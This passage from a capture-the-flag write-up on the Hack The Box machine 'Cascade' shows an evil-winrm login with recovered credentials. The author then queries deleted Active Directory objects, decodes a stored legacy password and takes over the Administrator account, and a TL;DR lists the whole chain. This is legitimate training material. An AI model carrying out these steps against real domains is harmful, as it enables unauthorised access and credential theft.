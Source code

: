 This results in the username `ArkSvc` and the password `w3lc0meFr31nd`.

### ArkSvc -> Administrator via AD Recycle Bin group

```bash
luc@kali:~/HTB/Cascade$ evil-winrm -u ArkSvc -p w3lc0meFr31nd -i 10.10.10.182

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\arksvc\Documents> whoami /all
...
CASCADE\AD Recycle Bin                      Alias            S-1-5-21-3332504370-1206983947-1165150453-1119 Mandatory group, Enabled by default, Enabled group, Local Group
...
*Evil-WinRM* PS C:\Users\arksvc\Documents> Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects -properties *
...
cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz
CN                              : TempAdmin
...
```

We know that a `TempAdmin` account had been created and that is used the same password as the `Administrator account`. We can use the `ArkSvc` account to look for deleted objects because that account is in the `CASCADE\AD Recycle Bin` group.

```bash
luc@kali:~/HTB/Cascade$ echo -n 'YmFDVDNyMWFOMDBkbGVz' | base64 -d; echo
baCT3r1aN00dles
luc@kali:~/HTB/Cascade$ evil-winrm -u Administrator -p baCT3r1aN00dles -i 10.10.10.182

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
809da854************************
```

## TL;DR

- Find user credentials using anonymous LDAP access
- Find encrypted password in VNC file
- Decompile application to find out how it works and use it to decrypt credentials from database file
- Use AD Recycle Bin to find credentials for deleted account which uses same password as admin account
